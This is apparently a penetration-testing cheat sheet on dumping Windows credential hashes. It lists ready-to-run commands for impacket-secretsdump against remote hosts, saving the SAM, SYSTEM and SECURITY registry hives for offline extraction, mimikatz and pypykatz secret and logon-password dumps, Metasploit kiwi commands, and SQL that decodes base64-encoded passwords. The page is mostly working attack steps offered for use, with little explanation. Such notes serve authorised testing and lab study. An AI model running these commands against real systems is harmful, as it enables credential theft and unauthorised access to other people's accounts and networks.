 # Dump Hashes

## Impacket-Secretsdump

```
python3 secretsdump.py <domain.name>/<user>:<password>@<ip> 
python3 secretsdump.py <domain.name>/<user>@ip -hashes <ntlm:ntlm>

impacket-secretsdump backup@spookysec.local # requires password for user
impacket-secretsdump Administrator@10.11.1.1 -hashes 'NTLM:NTLM'
impacket-secretsdump marvel/fcastle:Password1@192.168.183.137
```

## SAM / SYSTEM / SECURITY Hives

We can use the following hives as well to dump the hashes locally. This only requires the transfer of the SYSTEM, SAM, and SECURITY files onto our local machine. We could use whatever file transfer method is the most available to us.

```
reg.exe save hklm\system c:\Users\Administrator\system
reg.exe save hklm\security c:\Users\Administrator\security
reg.exe save hklm\sam c:\Users\Administrator\sam

Transfer them to our attacking machine.

impacket-secretsdump -sam sam -system system -security security LOCAL
impacket-secretsdump  -sam sam -system system LOCAL
```

## mimikatz/pypykatz

{% embed url="https://adsecurity.org/?page_id=1821" %}

Need to match architecture

```bash
privilege::debug
20 ‘OK’

sekurlsa::logonPasswords
lsadump::sam
lsadump::sam /patch
lsadump::lsa /patch
lsadump::secrets
kerberos::list

mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam /patch" "lsadump::lsa /patch" "lsadump::secrets" "exit"

pypykatz lsa minidump filename.DMP
```

## Metasploit

```
load kiwi

creds_all
lsa_dump_lsa
lsa_dump_secrets
kerberos_list
```

## Base64 decode MySQL password

```
#inside mysql 
SELECT username, CONVERT(FROM_BASE64(password), CHAR) FROM users;
SELECT username, CONVERT(FROM_BASE64(FROM_BASE64(password)), CHAR) FROM users; # 2x encoded

echo 'SOMETHING123==' | base64 -d
```
